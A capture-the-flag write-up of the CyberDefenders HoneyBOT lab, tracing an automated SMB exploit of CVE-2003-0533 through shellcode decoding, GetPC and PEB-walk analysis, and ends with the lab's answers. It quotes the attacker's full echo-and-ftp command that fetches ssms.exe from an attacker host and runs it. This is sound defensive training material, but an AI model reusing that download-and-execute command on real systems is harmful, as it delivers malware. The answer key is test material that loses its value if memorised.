#cyberdefender-medium #zui/brim #wireshark #scdbg #network-forensics #finished #reviewed
# Scenario
A PCAP analysis exercise highlighting attacker's interactions with honeypots and how automatic exploitation works.. (Note that the IP address of the victim has been changed to hide the true location.)

As a soc analyst, analyze the artifacts and answer the questions.
# Investigation
The investigation begins with triage of this capture file to scope the incident and identify indicators requiring further investigation.
## Triage
The protocol hierarchy statistics, viewed under `Statistics > Protocol Hierarchy Statistics`, reveal the following,



*Protocol hierarchy statistics*

1. `44.5%` of all packets are classified under `SOCKS` protocol
2. `86.5%` of all bytes captured are under `SOCKS` protocol, bytes captured is disproportionately attributed to this particular protocol
3. `SMB` traffic was captured
4. The captured `SMB` traffic includes `DCE/RPC` traffic related to `Active Directory Setup`

To identify what parties were involved, endpoint analysis was performed next.



*Endpoint statistics*

The provided capture is framed as `highlighting attacker's interaction with honeypots` and there are only 2 IP addresses in the capture. Of the two in the capture, only one falls within a public/external IP range, allowing the following roles to be established tentatively:
- The attacker's IP address is likely `98.114.205.102`
- The victim IP address is likely `192.150.11.111`

With the initial roles established, focus turned to conversation-level metrics to confirm the nature of the interaction between the attacker and the victim.



*Conversation statistics*

The duration of the conversation between `98.114.205.102` and `192.150.11.111` lasted `16.2192` seconds.
Furthermore, 5 `TCP` sessions were captured on ports `445`, `1957`, `1080` and `8884`.



*Captured `TCP` sessions*

These ports map to the following services
- `445` : `smb`
- `1957` : `unix-status` or `remstats`
- `1080` : `socks`
- `8884` : `unknown / Not IANA-registered`

`unix-status` service is associated with `remstats` which is a legacy service used for remote statistics.
This service is so old that resources about it are scarce.
Furthermore, `DCE/RPC` over `SMB` is a Windows-specific mechanism whereas `remstats` was primarily designed for `unix` environments.
It is highly probable that another service ,that was possibly established by the attacker, is running on this port.

`8884` is highly suspect because no known service as defined by the `IANA registrar` maps to this port and the connection was initiated by the victim connecting back to the attacker.

The order of the `tcp` sessions allow us to reconstruct a sequence where
- `smb` was the start of the connection
-  Some service running on `1957` was then accessed by the attacker
-  A reverse connection from the victim to the attacker on port `8884` was established
- `socks` traffic then occurred before the connection was closed.

The sessions that persisted the longest were the `socks` and `8884` sessions.
## Triage summary
Traffic of interest is limited to `SMB` and `SOCKS` between two hosts.
Roles were tentatively assigned based on IP allocation alone (`98.114.205.102` external attacker, `192.150.11.111` internal victim); this holds up unless later evidence contradicts it.
`SOCKS` account for majority of captured bytes which indicate the channel is carrying a substantial payload rather than simple connection overhead, and worth examining directly to see what is being relayed.
`SMB` / `DCE-RPC` traffic from an external host is anomalous and more than likely implies an initial access vector rather than legitimate use.
5 `tcp` sessions were captured and the entire interaction lasted only 16 seconds, this is consistent with automated exploitation.

Two sessions are of note.
Firstly, a session was initiated by the attacker connecting to port `1957`, a port where some unknown service is likely running on.
Secondly, another session was initiated by the victim connecting outbound to the attacker on port `8884`, a port with no `IANA` registration.
This is a callback and characteristic of a compromised machine contacting a `C2` server.

Together, this points to an intrusion where `SMB` was used as the initial access vector.
## Anomalous SMB Traffic
`smb` as determined from the triage was the first protocol used in the conversation between the two captured endpoints.
The `smb` or `smb2` traffic reveal anomalous traffic where the attacker sent a request for `DsRoleUpgradeDownlevelServer` with a frame length of 3208 bytes after connecting to `\lsarpc`.



*Anomalous `smb` traffic*

A Google search of `DsRoleUpgradeDownlevelServer` as well as `\lsarpc` points to `CVE-2003-0533` as detailed [here](https://nvd.nist.gov/vuln/detail/CVE-2003-0533).
This is a buffer overflow exploit that allows for arbitrary code execution via a packet that causes the `DsRolerUpgradeDownleveServer` function to create long debug entries for the `DCPROMO.LOG` log file.

The `tcp` stream reveals a long line of padding using `ascii` 1.



*`tcp` stream 1*

Viewing this stream as raw bytes will reveal a long section of bytes of value `0x90` which is the op code for `nop`.
There is a section of bytes that looks like actual data sandwiched in between the large block of `nop` op codes.



*nop sled*

This is highly characteristic of a buffer overflow exploit and we are likely looking at the actual shell code used by the actor.
Saving the conversation, particularly the traffic from `98.114.205.102` to `192.150.11.111`, will enable further analysis.
## Extracting Shell Code
The output was saved as `raw.bin`.
The dump is then passed to `scdbg` with the following parameters,



*scdbg configuration*

This will yield the following,



*scdbg results*

The first results, at index `0` which corresponds to offset `0x3f5`, is the shell code we are looking for and it reveals the following,



*`scdbg` report and dump*

The shell code decodes itself in memory using the instruction `xor byte [edx+ecx], 0x99`.
Therefore, the key it used to encode itself is `0x99`

From the output we can trace the execution of the shell code and it does the following,
- Gets the procedure addresses of necessary windows API
- Creates a new socket with flags set such that it operates over `IPv4` and uses `TCP`
- Bind this socket to port `1957`
- Upon a successful connection, it creates a `cmd` process
- It then closes the socket and exits the thread

This explains why the attacker connected to the victim machine on port `1957`.
The shell code created a service listening on that port that creates a `cmd` instance upon successful connection.

The `Memory Monitor Log` also states that the shell code accesses the `PEB (fs30)` and `peb.InInitializationOrderModuleList`.
This is distinctive of a `PEB walk` and is further analysed [here](#further-analysis-of-the-shell-code).

## Identifying commands issued
The extraction of the shell code revealed that it just creates a socket operating at port 1957 over raw `TCP`, no encryption.
Therefore, we can find the exact command issued by the threat actor in plain text in the `pcap`.

By using the filter `tcp.flags.push == 1` we can see the plain text commands that the attacker issued.



*command issued by attacker*

This command is

```
echo open 0.0.0.0 8884 > o & echo user 1 1 >> o & echo get ssms.exe >> o & echo quit >> o & ftp -n -s:o & del /F /Q o & ssms.exe
```

Which creates a script with name `o` and with contents

```
open 0.0.0.0 8884
user 1 1
get ssms.exe
quit
```

This script is then passed to `ftp.exe` to be executed.

This script performs the following,
- Connect to attacker server on port 8884, presumably where an ftp server is listening
- Log in with account credentials `1:1`
- Download `ssms.exe`
- Exit

After execution, the script deletes itself and runs the downloaded `ssms.exe`.
## Finding the malicious file

Knowing that the victim connects back to the attacker on port 8884, the traffic is viewable in the `pcap` by filtering for `tcp.port == 8884`.



*`TCP` Handshake completed*

Following and retrieving the `TCP stream` will then give us



*`TCP` Stream*

Which when decoded is the following set of commands



*Decoded traffic*

These commands correspond to `FTP`'s active mode and align with the script identified earlier.
Notably, the `PORT` command, `PORT 192,150,11,111,4,56`, instructs the server to connect back to the victim on port `1080` for the data transfer.
Importantly, this command isn't something the attacker explicitly issued; it's an automatic prerequisite that `ftp.exe` generated internally when `get ssms.exe` was invoked.

This explains why the data connection was initially flagged as `SOCKS` traffic: `Wireshark`'s protocol detection relies heavily on well-known port associations, and port `1080` happens to be the registered port for SOCKS.

In this case, that association was misleading.
The traffic on port `1080` was simply the raw file transfer for `ssms.exe`, not an actual SOCKS session.

This is evident in the network capture as well, where we will see that no known `SOCKS` fields are actually parsed by `Wireshark` but in the payload of the packet we will see the bytes of the `ssms.exe` file.



*`ssms.exe` being transferred*

Having identified that a file was transferred we can use `ZUI/Brim` to easily retrieve some metadata about the file. Load the `pcap` into `ZUI/Brim` then perform the following query.

```
_path == "files"
| cut id, source, analyzers, mime_type, sha1
```

Which gives us,



*`ZUI` output*

The output tells us it is a `dos executable` which is in line with what we have investigated thus far.
## Checking the malicious file using OSINT

Passing the retrieved `sha1` hash , `ac3cdd673f5126bc49faa72fb52284f513929db4`, to `VirusTotal` yields the following report.



*`VirusTotal` report*

The file `ssms.exe` is reported as a backdoor trojan.

## Further Analysis of the shell code

Shell code has two distinct problems the first one being that it does not know where it lands in memory so it cannot use absolute addressing when accessing its own embedded data, strings etc. The second one is that, the addresses of the windows APIs are either randomised by mechanisms like `ASLR` or just vary between service packs.

The shell code solves both of these problems and it is possible to see how it does so by analysing the decoded assembly instructions.

### Getting the assembly instructions

Using `objdump` on the decoded version of the binary produced, `raw.unpack`, allows us to see the instructions.

```
objdump -D -b binary -m i386 --start-address=0x3f5 raw.unpack > asm.txt
```

This creates a `asm.txt` containing the decoded assembly instructions.



*decoded assembly instructions*


>[!NOTE]
>Viewing the assembly can also be achieved using `scdbgc`
>Example: `scdbgc /f raw.unpack -foff 0x3f5 -v -s -1 > trace.txt`

### GetPC

The shell code solves the first problem of not knowing where it is in memory by using a technique called `GetPC` i.e. `GetProgramCounter`. This is a technique used in `32-bit x86 shellcode` where the code makes a call to a memory address where at that address is just a `pop edx` instruction. This effectively grabs the address of where the code landed at.

This is evident in the `asm.txt` output using `grep`.
```
grep 'call' asm.txt -A 2
```




*results of grep*

This makes a `jmp` to `0x5bd` which just calls `0x4b1`.
Thereby, loading the memory address of the shell code into `edx`.



*instruction at `0x5bd`*

### PEB Walk
Given that we know the code accesses `PEB (fs30)`, the relevant assembly instructions can be viewed using `grep`

```
grep 'fs.*30' asm.txt -A 10
```



*assembly instructions that accesses `fs30` *

These instructions are a complete match to the ones found in this [document](https://archives.phrack.org/issues/62/7.txt) that details what is shell code, its uses and techniques.
Specifically, sections `2.b.iv` and `2.b.v`.



*Documentation for how shell code uses `Kernel32` base memory*

The method described here is called `PEB Walk`. It locates `kernel32.dll`'s base address by accessing the `fs` segment register to reach the `PEB`, then walking the loaded module list until it finds `kernel32.dll`'s entry and reads its base address.

# Investigation Conclusion
The analysis of the provided network capture confirms an automated compromise of `192.150.11.111` by `98.114.205.102`, from initial access to malware delivery, in `16` seconds.

The attacker gained initial access by exploiting `CVE-2003-0533`, by sending a malformed `DsRoleUpgradeDownlevelServer` packet containing shell code.

The contained shell code creates a `TCP` socket that spawns an instance of `cmd.exe` on port `1957`.

The attacker then connects to this port and issues commands to create a script to download malware by connecting back to the attacker server on port `8884`, pass the script to `ftp.exe`, delete the script after execution and run the downloaded malware.
The port used for the data transfer was automatically assigned to `1080` and the name of the downloaded file is `ssms.exe`.

The downloaded malware has `SHA1` checksum of `ac3cdd673f5126bc49faa72fb52284f513929db4` and is flagged by almost all vendors to be a backdoor `Trojan` on `VirusTotal`.
# Questions
## Q1 — Attacker IP
>What is the attacker's IP address?

As established in the triage, the attacker malware is `98.114.205.102`.

**Answer:** `98.114.205.102`

---
## Q2 — Target IP
>What is the target's IP address?

As established in the triage, the target/victim address is `192.150.11.111`.

**Answer:** `192.150.11.111`

---
## Q3 — Attacker Country Code
>Provide the country code for the attacker's IP address (a.k.a geo-location).

We can check this [here](https://www.geolocation.com/?ip=98.114.205.102#ipresult).



*`Geolocation` search result*


**Answer:** `US`

---
## Q4 — TCP Sessions Count
>How many TCP sessions are present in the captured traffic??

As seen in the triage, under `Statistics > Conversation > TCP` in `Wireshark`, 5 `tcp` sessions were captured.


*Captured `TCP` sessions*

**Answer:** `5`

---
## Q5 — Time to perform attack
>How long did it take to perform the attack (in seconds)?

As seen in the triage, under `Statistics > Conversation > IPv4` in `Wireshark`, duration was `16` seconds.


*Conversation statistics*


**Answer:** `16`

---
## Q6 — CVE of exploit
>Provide the CVE number of the exploited vulnerability.

From the analysis of the network capture we found the exploit is `CVE-2003-0533`.


*Anomalous `smb` traffic*

**Answer:** `CVE-2003-0533`

---
## Q7 — Protocol to carry exploit
>Which protocol was used to carry over the exploit?

The protocol `smb` as seen in the screenshot of the previous question.

**Answer:** `smb`

---
## Q8 — Protocol to download malicious files
>Which protocol did the attacker use to download additional malicious files to the target system?

The attacker created a script on the victim that causes the it to connect back to the attacker on port `8884` and login to an `ftp` server with credentials `1:1` to download malware.

Therefore, the protocol is `ftp`.

**Answer:** `ftp`

---
## Q9 — Name of malware
>What is the name of the downloaded malware?

In the script created by the attacker is `get ssms.exe`.
Analysis of the packets related to the data transfer corroborate this as well.

Therefore, the answer is `ssms.exe`.

**Answer:** `ssms.exe`

---
## Q10 — Attacker listening port
>The attacker's server was listening on a specific port. Provide the port number.

From the investigation of the attacker created script, we know that the victim was made to connect back to the attacker on port `8884`.

Therefore, the attacker must have been listening on port `8884`.

**Answer:** `8884`

---
## Q11 — Date of first submission to VirusTotal
>When was the involved malware first submitted to VirusTotal for analysis? Format: YYYY-MM-DD

On the `VirusTotal` report, navigating to `Details` will show the following,



*Report details*

Therefore, the answer is `2007-06-27`.

**Answer:** `2007-06-27`

---
## Q12 — Key used for encoding
>What is the key used to encode the shellcode?

`scdbg` generated a report of the extracted shell code and one section of the report details that the code decodes itself. The instructions provided in that section of the report show an instruction where each byte is `xor`'ed with `0x99`.

Therefore, the key used for encoding is `0x99`.

**Answer:** `0x99`

---
## Q13 — Port number used by shellcode
>What is the port number the shellcode binds to?

The output generated by `scdbg` shows that the socket was created to bind to port `1957`.

Therefore, the answer is `1957`.

**Answer:** `1957`

---
## Q14 — OS file being queried
>The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process?

This question is odd because the OS file being queried is not really related to the technique used by the shell code to determine its location in memory.

The OS file being queried is `kernel32.dll` but is queried because the shell code needs to determine the procedure address of `GetProcAddress` so it can call that API. This is solving a different problem than not knowing where it is in memory.

The shell codes know where it is in memory by using the `GetPC` technique which in short just pushes a return address onto the stack and immediately pops it into a register.

**Answer:** `kernel32.dll`

---
# Completion



I successfully completed HoneyBOT Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/francisvil3213/honeybot/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender